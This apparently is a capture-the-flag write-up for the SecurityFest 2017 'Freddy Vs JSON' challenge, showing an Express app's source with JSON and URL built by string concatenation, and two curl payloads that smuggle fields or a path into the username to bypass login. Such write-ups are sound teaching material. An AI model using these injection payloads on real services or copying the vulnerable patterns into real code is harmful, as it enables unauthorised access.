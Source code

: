 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
modified: 2017-06-02
date: 2014-05-13T13:56:49+00:00
comments: true
title: SecurityFest2017 - Freddy Vs JSON
tags: schemainjection
mathjax: false
imagefeature: /images/express.jpg
description: SecurityFest2017 - Freddy Vs JSON Writeup
category: Web Exploitation
chart: null
---
```



## Problem

```
Can you hack my friends facebook? no? what about this then?
Solves: 19
Service: http://52.208.132.198:2999/
Author: avlidienbrunn
```


## Writeup

First impression i thought that was SQL Injection challenges to get into login bypass but after a while
i just figure it they using Express that was node web framework.

```
➔ curl http://52.208.132.198:2999/ -v
*   Trying 52.208.132.198...
* Connected to 52.208.132.198 (52.208.132.198) port 2999 (#0)
> GET / HTTP/1.1
> Host: 52.208.132.198:2999
> User-Agent: curl/7.47.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 1813
< ETag: W/"715-DSGKN9kwhacZR6TO5Ab8xoUqS9Y"
< Date: Fri, 02 Jun 2017 02:25:59 GMT
< Connection: keep-alive
< 
```

so let's try to find some file configuration that's usually used by node and i just found
`package.json` is readable for us.

```js
{
    name: "freddyvsjson",
    version: "1.0.0",
    description: "hi",
    main: "index.js",
    dependencies: {
    body-parser: "^1.17.1",
    express: "^4.15.2",
    express-jwt: "^5.3.0",
    request: "^2.81.0"
},
devDependencies: { },
scripts: {
    test: "echo "Error: no test specified" && exit 1"
},
author: "",
license: "ISC"
}
```

this file actually leaking some information for further testing. we now have idea what module used.
and again we can read `index.js` content.

```js
require('./local');
var crypto = require('crypto');
var express = require('express');
var request = require("request");
var app = express();

var bodyParser = require('body-parser');
app.use(bodyParser.urlencoded({
	extended: true
})); 

app.use(express.static('.'));

app.listen(2999, function () {
  console.log('Example app listening on port 2999!')
});

index = `<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" user-scalable="no" content="width=device-width, initial-scale=1">
      <script src="https://code.jquery.com/jquery-1.12.4.min.js"></script>
      <script src="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/js/bootstrap.min.js"></script>
      <script src="/static/index.js"></script>
      <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css" />
      <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.3.0/css/mdb.min.css" />
      <link rel="stylesheet" href="/static/freddy.css" />
  </head>
  <body><section class="login-info">
<div class="container">
  <div class="row main">
       <div class="form-header elegant-color">
          <h1 class="text-center ">Authenticate</h1>
        </div>
    <div class="main-content">
            
          <div class="input-group ">
            <span class="input-group-addon"><span class="glyphicon glyphicon-envelope" aria-hidden="true"></span></span>
            <input id="user" type="text" class="form-control text-center" name="email" placeholder="Enter your Email">
          </div>
          <div class="input-group">
            <span class="input-group-addon"><span class="glyphicon glyphicon-lock" aria-hidden="true"></span></span>
            <input id="pass" type="password" class="form-control text-center" name="password" placeholder="Enter your Password">
          </div>
          
          <div class="form-group ">
              <a href="#" id="login" type="button"  class="btn btn-danger btn-lg btn-block login-button">login</a>
          </div>
          
          <div class="form-group" id="container">
          </div>
      
      </div>
    </div></body></html>`;

app.get('/', function (req, res) {
	res.send(index);
});

function atob(str){
	return Buffer(str, 'base64').toString()
}

function btoa(str){
	return Buffer(str).toString('base64')
}

app.post("/", function(req, res){
	if(req.body.user && req.body.pass){
		user = req.body.user;
		pass = crypto.createHash('md5').update(req.body.pass).digest("hex");
		//Query internal login service
		request("http://127.0.0.1:3001/createTicket/"+user+"/"+pass, function(error, response, body){
			console.log(body);
      try{
			   body = JSON.parse(body);
      }catch(x){
         body = {"authenticated":false, "user":req.body.user, "id":0}
      }
			if(body.authenticated){
				body.response = "Congratulations: " + process.env.FLAG;
			}else{
        body.response = "Invalid username or password!";
      }
			res.send(JSON.stringify(body));
		});
	}else{
		res.send("hi");
	}
})
```

and we found another file `local.js` which is included in first line of `index.js`

```js
var express = require('express');
var crypto = require('crypto');
var localapp = express();

localapp.listen(3001, '127.0.0.1', function () {
  console.log('JWT service up!')
});

db = [
	{"user":"admin","pass":"9c72256fdb7196d2563a38b84f431491","id":"1"}
];

function atob(str){
	return Buffer(str, 'base64').toString()
}

function btoa(str){
	return Buffer(str).toString('base64')
}

function verify(user, pass){
	db_user = db[0]; //TODO: sync with LDAP instead
	if(user && user == db_user["user"]){
		if(pass && pass == db_user["pass"]){
			return db_user["id"];
		}
	}
	return 0;
}

localapp.get('/createTicket/:user/:pass', function (req, res) {
	user = req.params.user;
	pass = req.params.pass;
	userid = verify(user, pass);
	if(userid){
		res.send('{"authenticated":true, "user":"'+user+'", "id":'+userid+'}');
	}else{
		res.send('{"authenticated":false, "user":"'+user+'", "id":'+userid+'}');
	}
})
```

after trying to understand how this app works, i am trying to bruteforce this password hash `9c72256fdb7196d2563a38b84f431491` 
and my guess about SQL injection is gone because they using hardcoded db rather than using connection to some databases.

so the hash isn't crackable not get anyhing, and again i just read the `index.js` file to find some other ways to get authenticated
then i found this part in `index.js` can be exploited

```js
  try{
		   body = JSON.parse(body);
  }catch(x){
     body = {"authenticated":false, "user":req.body.user, "id":0}
  }
```

if we fail to authenticate with correct password the code will trigger catch, as we can see we can control
`req.body.user` variable so we can overwrite the `"authenticated":false`.

we can get flag with this curl
`curl -X POST http://52.208.132.198:2999/ --data 'user=admin", "authenticated":"true&pass=foobar'`

we have another way for bypass the login exploiting this line in `index.js`

```js
request("http://127.0.0.1:3001/createTicket/"+user+"/"+pass, function(error, response, body){
```

we can simply input user like `admin/<hash>?` and password `anything`, question mark at the end to ignore whatever after that

```
curl -X POST http://52.208.132.198:2999/ --data 'user=admin/9c72256fdb7196d2563a38b84f431491?&pass=foobar'
```

so we got the flag `{"authenticated":true,"user":"admin","id":1,"response":"Congratulations: SCTF{1nj3ction_5chm1nj3ctioN}"}`